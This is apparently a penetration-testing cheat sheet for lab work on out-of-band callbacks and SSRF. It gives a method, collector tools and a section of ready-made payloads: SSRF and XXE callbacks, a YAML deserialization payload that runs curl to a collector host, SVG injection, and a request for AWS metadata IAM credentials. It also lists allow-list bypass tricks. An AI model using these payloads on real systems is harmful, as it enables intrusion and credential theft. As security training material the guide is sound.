

# Out‑of‑Band (OOB) Attacks & SSRF in Microservice GraphQL Labs

---

> [!summary]  
> **OOB interactions** (HTTP/DNS callbacks) reveal blind SSRF, XXE, blind SQLi, deserialization flaws, and other indirect triggers in distributed architectures. This guide provides a complete arsenal: payload examples, tools (including alternatives to Burp Collaborator), methodology, and checklists.

---

## 1. High‑Level Summary

> [!info]  
> OOB attacks compel the target to reach out to an attacker‑controlled endpoint. **SSRF** is the primary vector, but **XXE**, **file parsing**, **deserialization**, and **template engines** can also produce OOB behavior.

---

## 2. Core Concepts

|Concept|Description|
|---|---|
|**OOB Request**|Application issues an unsolicited HTTP/DNS/FTP/etc. request to your server.|
|**SSRF**|Forces the server to make HTTP(S)/gRPC calls to attacker domains or internal IP ranges.|
|**Secondary OOB**|Triggered via XXE, deserialization, PDF/image parsing, or template engines.|
|**Blind Vulnerabilities**|No direct feedback; OOB callbacks confirm success.|

> [!warning]  
> UI errors (e.g., “domain not allowed”) can be misleading. **Always verify with your OOB collector**.

---

## 3. Tools & Infrastructure

> [!tip]  
> Stand up your OOB collector **before** testing. Use unique subdomains for each payload.

|Tool / Service|Purpose|Usage Example|
|---|---|---|
|**Burp Collaborator**|Receive HTTP/DNS callbacks|Configure in Burp → inject payload with `*.burpcollaborator.net`.|
|**Interact.sh**|Lightweight OOB collector|`curl http://<your-id>.interact.sh/ping`|
|**Webhook.site**|Quick HTTP OOB|Generate a URL on webhook.site → embed in payloads.|
|**PayloadsAllTheThings**|SSRF/XXE/file‑parsing library|Browse `PayloadsAllTheThings/OOB` for prebuilt vectors.|
|**Mermaid**|Diagramming attack flows|Use Mermaid code blocks to visualize your methodology.|

---

## 4. Testing Methodology

> [!info]  
> Follow this **4‑step checklist** on every candidate endpoint.

1. **Prepare Collector**
    
    - Configure **Burp Collaborator**, **Interact.sh**, or **Webhook.site**.
        
    - Note your unique domain(s).
        
2. **Identify OOB Entry Points**
    
    - URL parameters in JSON/GET/POST
        
    - File uploads (images, PDFs, SVGs)
        
    - Template inputs (SSR, email templates)
        
    - XML parsers (XXE), deserializers (YAML, Java serialization)
        
    - Remote includes (image fetchers, webhooks)
        
3. **Inject & Trigger**
    
    - Send payloads targeting your collector:
        
        ```http
        GET /api/fetch?url=http://<COLLAB>.interact.sh/trigger
        ```
        
    - Try multiple schemes: `http`, `https`, `ftp`, `gopher`, `file` (if applicable).
        
4. **Verify & Pivot**
    
    - Confirm callback in logs.
        
    - Map internal services (e.g., `169.254.169.254/latest/meta-data` for AWS).
        
    - Leverage OOB behavior for:
        
        - Internal endpoint enumeration
            
        - Metadata retrieval
            
        - Sensitive data exfiltration
            

---

## 5. Ready‑to‑Use Payloads

> [!info]  
> Replace `<COLLAB>` with your collector domain.

### 5.1 SSRF (Direct URL)

```http
GET /api/fetch?url=http://<COLLAB>.webhook.site/ssrf
```

### 5.2 XXE (XML)

```xml
<?xml version="1.0"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://<COLLAB>.interact.sh/xxe">
]>
<doc>&xxe;</doc>
```

### 5.3 Deserialization (YAML example)

```yaml
!!python/object/apply:os.system ["curl http://<COLLAB>.webhook.site/deser" ]
```

### 5.4 PDF/Image Parsing

```html
.webhook.site/track.jpg" />
<object data="http://<COLLAB>.interact.sh/obj" />
```

### 5.5 SVG Injection

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://<COLLAB>.interact.sh/image" />
</svg>
```

### 5.6 Cloud Metadata Retrieval

```http
GET /api/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

---

## 6. Filter & Bypass Techniques

> [!warning]  
> Basic allow‑list filters often check only hostname or prefix. Evade with subdomain tricks, encoding, redirects.

|Technique|Example|Notes|
|---|---|---|
|**Subdomain Bypass**|`http://localhost.attacker.com`|Filter matches `startswith('localhost')`.|
|**Dot‑Notation IP**|`http://127.0.0.1.0.0.0.1`|Trick naive regex.|
|**URL Encoding**|`http%3A%2F%2F127.0.0.1`|Bypass simple string matches.|
|**Redirector Proxy**|`http://myproxy.com/?url=http://127.0.0.1`|Chain through allowed domain → target internal.|
|**HTTP Verb Tricks**|`file://` or `gopher://`|Useful for older libraries or gRPC contexts.|

---

## 7. Attack Flow Diagram

> [!diagram]



---

## 8. OOB & SSRF Checklist

> [!important]  
> Use this checklist for each test:

-  **Collector Ready**: Burp Collaborator, Interact.sh, or Webhook.site configured
    
-  **Entry Points Mapped**: URL fields, file uploads, templates, XML parsers, deserializers
    
-  **Payloads Injected**: SSRF, XXE, deserialization, SVG, metadata retrieval
    
-  **Callbacks Verified**: HTTP/DNS logs observed
    
-  **Bypasses Applied**: Subdomain, encoding, redirector, verb tricks
    
-  **Internal Mapping**: Enumerated internal ports & services
    
-  **Pivot Planning**: Identify next-stage exploitation (IDOR, RCE)
    

---

_Last updated: {{DATE:YYYY‑MM‑DD}}_